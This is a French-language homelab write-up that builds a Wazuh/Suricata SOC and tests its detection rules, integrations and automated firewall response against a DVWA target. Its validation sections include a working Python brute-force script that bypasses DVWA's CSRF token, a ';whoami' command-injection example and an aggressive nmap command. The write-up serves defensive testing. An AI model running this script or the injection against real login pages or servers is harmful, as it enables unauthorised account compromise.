







# Détection et réponse aux incidents (workflow XDR)

*Note : L'infrastructure sous-jacente ayant été stabilisée et documentée dans le fichier `02_ARCHITECTURE_AND_EVOLUTION.md`, ce document se concentre exclusivement sur les opérations de Blue Team. Il détaille l'arsenal défensif déployé pour transformer un système passif de collecte de logs en une plateforme XDR (Extended Detection and Response) proactive et automatisée.*


*Vue globale du SOC (Security Events) centralisant les KPIs de blocage, les alertes critiques (RCE, Brute-force) et l'enrichissement de la Threat Intelligence.*

---

## 1. La détection : visibilité globale (le radar)

Pour qu'un SIEM soit efficace, il doit avoir une visibilité totale sur les différentes couches du système d'information. La stratégie de détection a été divisée en trois axes principaux : le réseau, le système (endpoint) et l'applicatif.

### 1.1 Détection intrusion réseau (NIDS avec Suricata)
Plutôt que de se limiter aux logs des serveurs, une surveillance en amont a été mise en place directement sur la passerelle OPNsense.
* **Moteur IDS :** Le moteur Suricata analyse les paquets réseau traversant les zones WAN et DMZ pour identifier les signatures d'attaques connues (scans de ports, malwares, tentatives d'exploitation).
* **Intégration SIEM (ingestion) :** Les alertes générées par Suricata sont formatées en JSON et expédiées en temps réel via Syslog vers le port UDP `5140` du nœud Wazuh Worker.
* **Décodage et corrélation :** Pour que Wazuh puisse interpréter cette charge utile (payload) provenant d'OPNsense, un décodeur sur-mesure a été créé pour extraire le format JSON. Il a été couplé à une règle de détection (niveau 8) qui récupère et affiche dynamiquement la signature exacte de l'attaque générée par Suricata (`$(alert.signature)`).

<details>
<summary>Extrait des configurations (décodeur & règle Suricata)</summary>

**Décodeur (`wazuh-config/local_decoder.xml`) :**
```xml
<decoder name="suricata_opnsense">
  <program_name>^suricata</program_name>
  <plugin_decoder>JSON_Decoder</plugin_decoder>
</decoder>
```

**Règle (`wazuh-config/local_rules.xml`) :**
```xml
<group name="ids,suricata">
  <rule id="100050" level="8">
    <decoded_as>suricata_opnsense</decoded_as>
    <field name="event_type">^alert$</field>
    <description>Alerte Suricata : $(alert.signature)</description>
  </rule>
</group>
```
</details>

#### Validation et vecteur d'attaque


*Simulation d'une reconnaissance réseau depuis la machine d'attaque. Suricata intercepte l'anomalie et Wazuh déclenche la règle 100050 grâce au décodeur JSON personnalisé.*

> **Détail du vecteur d'attaque :**
> L'alerte ci-dessus a été générée via la commande `nmap -A -T4 -Pn <IP>` :
> * `-A` : Active la détection avancée (OS, versions, scripts agressifs).
> * `-T4` : Profil agressif augmentant le taux de paquets, ce qui déclenche l'IDS.
> * `-Pn` : Désactive le ping initial pour forcer le scan à travers le pare-feu.

### 1.2 Détection système et intégrité (HIDS & FIM)
Sur la cible DMZ (serveur Ubuntu hébergeant DVWA), la configuration de l'agent Wazuh (`ossec.conf`) a été durcie pour traquer les comportements anormaux au plus près du système d'exploitation :
* **Surveillance système (Auditd) :** Le démon Linux `auditd` a été configuré pour journaliser les appels systèmes critiques.
* **File Integrity Monitoring (FIM) :** Le module `<syscheck>` scanne et calcule les empreintes cryptographiques (hashes) des fichiers en temps réel sur le répertoire Web (`/var/www/html`) et les dossiers critiques (`/etc`, `/root/.ssh`, etc.).

<details>
<summary>Extrait de ossec.conf (cible DMZ) - Configuration FIM (syscheck)</summary>

```xml
<syscheck>
  <!-- Surveillance des binaires systèmes -->
  <directories check_all="yes">/etc,/usr/bin,/usr/sbin</directories>
  <directories check_all="yes">/bin,/sbin,/boot</directories>

  <!-- Surveillance temps réel des vecteurs de persistance -->
  <directories realtime="yes" check_all="yes">/root/.ssh</directories>
  <directories realtime="yes" check_all="yes">/var/spool/cron</directories>
  <directories realtime="yes" check_all="yes">/etc/systemd/system</directories>

  <!-- Surveillance temps réel de l'application Web -->
  <directories realtime="yes" report_changes="yes">/var/www/html</directories>
  <directories realtime="yes" report_changes="yes">/etc/apache2</directories>
  
  <!-- Exclusions pour éviter les faux positifs et la saturation -->
  <ignore>/etc/mtab</ignore>
  <ignore>/etc/hosts.deny</ignore>
  <ignore>/var/run</ignore>
  <ignore>/var/log</ignore>
  <ignore>/tmp</ignore>
</syscheck>
```
</details>

### 1.3 Ingénierie de détection (règles de corrélation)
Des règles de corrélation sur-mesure ont été injectées dans le fichier `local_rules.xml` du Wazuh Manager :
* **Corrélation temporelle (brute-force) :** La règle `100021` agit comme un compteur. Si un POST HTTP sur `login.php` (règle parent `100020`) est répété plus de 10 fois en 60 secondes depuis la même IP, elle déclenche une alerte de niveau 10.
* **Détection de RCE / WebShell :** En s'appuyant sur Auditd, la règle `100005` (niveau 12) se déclenche si une commande shell (`susp_shell`) est exécutée par le compte de service Apache (`UID 33`).

<details>
<summary>Extrait du fichier wazuh-config/local_rules.xml</summary>

```xml
<group name="local,apache,brute_force">
  <rule id="100020" level="1">
    <if_group>web|apache</if_group>
    <match>POST /login.php</match>
    <description>Tentative de connexion sur DVWA</description>
  </rule>

  <rule id="100021" level="10" frequency="10" timeframe="60" ignore="60">
    <if_matched_sid>100020</if_matched_sid>
    <same_source_ip />
    <description>Attaque par force brute sur DVWA (plus de 10 tentatives en 60s)</description>
    <group>brute_force</group>
  </rule>
</group>

<group name="local,attack,rce">
    <rule id="100005" level="12">
      <if_sid>80700</if_sid>
      <field name="audit.key">susp_shell</field>
      <field name="audit.uid">33</field>
      <description>Exécution de commande shell par le serveur Web (Suspicion de WebShell / RCE)</description>
      <group>attack,rce</group>
    </rule>
</group>
```
</details>

#### Validation 1 : Attaque par force brute
Afin de valider l'efficacité de la règle `100021`, une simulation d'attaque offensive a été menée. Un script Python sur-mesure a été développé pour automatiser une attaque par force brute tout en contournant dynamiquement le jeton anti-CSRF (Cross-Site Request Forgery) imposé par DVWA. 

<details>
<summary>Extrait du script Python offensif (bypass CSRF & brute-force)</summary>

```python
import requests
from bs4 import BeautifulSoup

url = "http://<IP_PUBLIQUE_WAN>/login.php"
username = "admin"
passwords = [
    "12345678", "qwertyuiop", "azerty123", "letmein123",
    "1234567890", "abcdefghij", "azertyuiop", "1q2w3e4r5t", "00000000",
    "poiuytrewq", "123123123", "wsxedcrfv", "mnbvcxz", "lkjhgfdsa",
    "iloveyou", "welcome", "monkey", "football", "dragon", "superman", 
    "guest", "admin123", "password!", "12345678.", "qwertyuiop#", 
    "azerty123!", "letmein123?", "qwerty1234", "azerty9876", "11223344",
    "password55", "adminadmin", "qazwsxedc", "plmoknijb", "123456789",
    "qwertyuiopas", "azertyuiopqs", "1234567812", "0000000000",
    "poiuytrewqlk", "1231231231", "wsxedcrfv1", "mnbvcxz123", "lkjhgfdsa1",
    "iloveyou123", "welcome123", "monkey123", "football123", "dragon123",
    "superman123", "guest12345", "admin12345",

    "password"
]

session = requests.Session()

for pwd in passwords:
    # 1. Récupérer la page de login pour extraire le token CSRF
    response = session.get(url)
    soup = BeautifulSoup(response.text, 'html.parser')
    token_input = soup.find('input', {'name': 'user_token'})
    
    if not token_input:
        print("Token CSRF non trouvé !")
        break
    token = token_input.get('value')

    # 2. Soumettre le formulaire avec le token valide
    data = {
        'username': username,
        'password': pwd,
        'Login': 'Login',
        'user_token': token
    }
    response = session.post(url, data=data, allow_redirects=False)

    # 3. Vérification de la compromission (Code 302 vers index.php)
    if response.status_code == 302 and 'index.php' in response.headers.get('Location', ''):
        print(f"[SUCCÈS] Mot de passe trouvé : {pwd}")
        break
    else:
        print(f"[ÉCHEC] {pwd}")
```
</details>


*Exécution du script offensif contournant la protection CSRF de DVWA. L'attaque réussit et déclenche instantanément la règle de corrélation temporelle 100021.*

#### Validation 2 : Injection de commandes (WebShell / RCE)


*Exploitation d'une injection de commandes (RCE) sur DVWA. Le SIEM détecte le comportement anormal du compte de service Web grâce à Auditd.*

> **Mécanique d'attaque et de détection (Règle 100005) :**
> L'attaquant détourne la fonction `ping` en injectant l'opérateur de contrôle `;` pour enchaîner l'exécution de la commande `whoami`. Le résultat renvoyé sur l'interface (`www-data`) confirme la compromission.
> 
> Côté SOC, la détection s'appuie sur la surveillance des appels système via **Auditd**. La règle se déclenche en repérant l'exécution d'un binaire système (`susp_shell`) spécifiquement par l'utilisateur d'ID `33` (`www-data`). Un compte de service Web n'étant structurellement pas censé interagir avec le shell, cette anomalie confirme instantanément la présence d'un WebShell ou d'une RCE.

---

## 2. L'enrichissement : Threat Intelligence (VirusTotal)

Dans un SOC moderne, les analystes ne doivent pas perdre de temps à chercher manuellement la réputation d'un fichier suspect. Une capacité de *Threat Intelligence* a été intégrée nativement dans la configuration globale du manager (`ossec.conf`).

* **Mécanisme :** Le bloc d'intégration a été lié spécifiquement au groupe `syscheck`. Dès que le FIM détecte un nouveau fichier, le SIEM extrait automatiquement son hash et interroge l'API VirusTotal. 
* **Résultat :** Si le fichier est reconnu comme malveillant, le format de réponse JSON permet à Wazuh de parser le résultat et d'élever l'incident.

<details>
<summary>Extrait ossec.conf (manager) - Intégration VirusTotal</summary>

```xml
<integration>
  <name>virustotal</name>
  <api_key><VOTRE_CLE_API_VIRUSTOTAL></api_key>
  <group>syscheck</group>
  <level>1</level>
  <alert_format>json</alert_format>
</integration>
```
</details>

#### Validation : Enrichissement Threat Intelligence (VirusTotal)


*Dépôt d'une charge virale (fichier de test EICAR renommé). Le module Syscheck détecte l'altération d'intégrité, extrait le hash, et l'API VirusTotal confirme la menace avec une alerte de niveau 12.*

---

## 3. L'alerte : communication et triage (Slack)

L'un des défis majeurs d'un SIEM est la "fatigue d'alerte". Obliger l'équipe à fixer un écran n'est pas viable. Une intégration Webhook a donc été déployée pour notifier l'équipe sur Slack.

* **Filtrage de criticité :** Pour éviter le bruit, la balise `<level>10</level>` a été spécifiée. Seules les alertes critiques (force brute avérée, RCE, malware) sont poussées en temps réel dans le canal de l'équipe SOC.

<details>
<summary>Extrait ossec.conf (manager) - Intégration Slack</summary>

```xml
<integration>
  <name>slack</name>
  <hook_url><VOTRE_WEBHOOK_SLACK></hook_url>
  <level>10</level>
  <alert_format>json</alert_format>
</integration>
```
</details>


*Réception en temps réel des alertes de force brute qualifiées sur le canal de communication de l'équipe SOC, évitant ainsi la fatigue d'alerte.*

---

## 4. La remédiation : réponse automatisée (SOAR)

L'aboutissement du projet réside dans sa capacité à passer de l'observation à l'action. Le module **Active Response** de Wazuh a été implémenté pour endiguer automatiquement une attaque en cours.

* **Le scénario de défense :** Lorsqu'une attaque dépasse le seuil critique (niveau 10), le manager déclenche la commande `firewall-drop` sur l'agent local concerné.
* **Avantage tactique :** La balise `<timeout>60</timeout>` permet de bannir l'IP attaquante au niveau du pare-feu local pendant 60 secondes (durée de test), bloquant net l'attaque avant même l'intervention humaine, tout en évitant un bannissement permanent qui pourrait causer un déni de service (DoS) légitime.

<details>
<summary>Extrait ossec.conf (manager) - Active Response</summary>

```xml
<active-response>
  <command>firewall-drop</command>
  <location>local</location>
  <level>10</level>
  <timeout>60</timeout>
</active-response>
```
</details>

#### Validation : Réponse automatisée (Active Response)


*La contre-mesure automatisée en action : l'Active Response `firewall-drop` bannit l'IP source au niveau du pare-feu, coupant physiquement la connexion TCP du script Python (`RemoteDisconnected`) en pleine attaque.*
